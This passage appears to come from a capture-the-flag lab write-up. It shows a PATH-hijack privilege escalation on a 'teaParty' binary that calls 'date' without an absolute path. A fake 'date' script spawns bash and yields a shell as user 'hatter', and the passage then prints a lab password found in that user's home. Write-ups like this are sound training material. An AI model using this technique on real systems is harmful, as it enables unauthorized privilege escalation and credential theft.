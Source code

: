 This line is pretty interesting, if we analyze it well, it is making a call to `date`, we can do the same as before but we need to path hijack that since it does not have an absolute path:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

So, let's do the following:

1. Create a file named `date` with this contents:

```bash
#!/bin/bash
/bin/bash  
```

2. Give the file execution permissions:

```
chmod +x date
```

3. Hijack the path:

```
export PATH=.:$PATH
```

4. Use the binary:

```
./teaParty
```

![Pasted image 20250410174605.png](../../IMAGES/Pasted%20image%2020250410174605.png)

We can see we got a shell as `hatter`, let's check our home:

```
hatter@wonderland:/home/hatter$ ls
password.txt
```

We got a password:

```
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

We can migrate to ssh with these credentials. Now, let's check our sudo privileges:

![Pasted image 20250410174723.png](../../IMAGES/Pasted%20image%2020250410174723.png)

